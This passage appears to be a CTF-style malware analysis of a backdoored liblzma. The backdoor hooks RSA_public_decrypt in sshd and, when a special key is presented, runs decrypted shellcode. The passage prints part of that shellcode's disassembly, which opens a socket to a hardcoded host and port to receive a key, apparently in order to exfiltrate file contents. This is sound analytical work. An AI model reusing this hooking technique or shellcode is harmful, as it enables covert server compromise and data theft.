 Also, if we check the corefile vmmap, we see something interesting:

![image](https://github.com/user-attachments/assets/7e64f324-0075-428e-a141-177e756e9994)

So now, we look toward liblzma.

## Liblzma backdoor

If we look at the new liblzma and the original, then use [Diaphora](http://diaphora.re/) to do some bindiffing, we can see some interesting changes.

Notably, we see a new function in the initialization function list (note, there are no symbols provided so I did the renaming):

![image](https://github.com/user-attachments/assets/a4d3e11f-5a18-4d09-b058-fd6051d0ea82)

If we follow this func it does this (func starts at 0x4DD0):

![image](https://github.com/user-attachments/assets/d7c4d5f8-e9f4-4540-9112-a7ec3c0a15d4)

(it uses an open source library called [plthook](https://github.com/kubo/plthook) to do some dirty work here, it's just statically linked in. Not very covert! lol)

So this basically hooks `RSA_public_decrypt` in opensshd to do some bad shit, it makes it go to here instead:

![image](https://github.com/user-attachments/assets/6dc6cb15-aa1d-4e30-9e13-63b18f2df9ca)

Here if the public key is some special key, it decrypts some code, mmaps to it, and jumps to it.

So let's grab that [shellcode](./plain.bin) from the corefile and look at it.

The code basically is doing this, comments added

```asm
seg000:0000000000000DC2     ; __int64 __fastcall cringemain()
seg000:0000000000000DC2     cringemain      proc near               ; CODE XREF: start+4↑p
seg000:0000000000000DC2
seg000:0000000000000DC2     key             = byte ptr -1278h
seg000:0000000000000DC2     nonce           = byte ptr -1258h
seg000:0000000000000DC2     exfil_filename  = byte ptr -1248h
seg000:0000000000000DC2     contents        = byte ptr -1148h
seg000:0000000000000DC2     exfil_namesize  = dword ptr -0C8h
seg000:0000000000000DC2     mysize          = dword ptr -0C4h
seg000:0000000000000DC2     cipher          = chacha_state ptr -0C0h
seg000:0000000000000DC2
seg000:0000000000000DC2 000                 push    rbx
seg000:0000000000000DC3 008                 push    rsi
seg000:0000000000000DC4 010                 push    rdi
seg000:0000000000000DC5 018                 push    r12
seg000:0000000000000DC7 020                 push    rbp
seg000:0000000000000DC8 028                 mov     rbp, rsp
seg000:0000000000000DCB 028                 lea     rsp, [rsp-1688h]
seg000:0000000000000DD3 16B0                mov     eax, 0A00020Fh
seg000:0000000000000DD8 16B0                mov     dx, 539h
seg000:0000000000000DDC 16B0                call    opensocket
seg000:0000000000000DE1 16B0                mov     ebx, eax
seg000:0000000000000DE3 16B0                lea     rsi, [rbp+key]  ; key
seg000:0000000000000DEA 16B0                push    2Dh ; '-'
seg000:0000000000000DEC 16B8                pop     rax             ; recvfrom
seg000:0000000000000DED 16B0                mov     edi, ebx
seg000:0000000000000DEF 16B0                push    20h ; ' '
seg000:0000000000000DF1 16B8                pop     rdx
seg000:0000000000000DF2 16B0                xor     r10d, r10d
seg000:0000000000000DF5 16B0                xor     r8d, r8d
seg000:0000000000000DF8 16B0                xor     r9d, r9d
seg000:0000000000000DFB 16B0                syscall                 ; Low latency system call
```
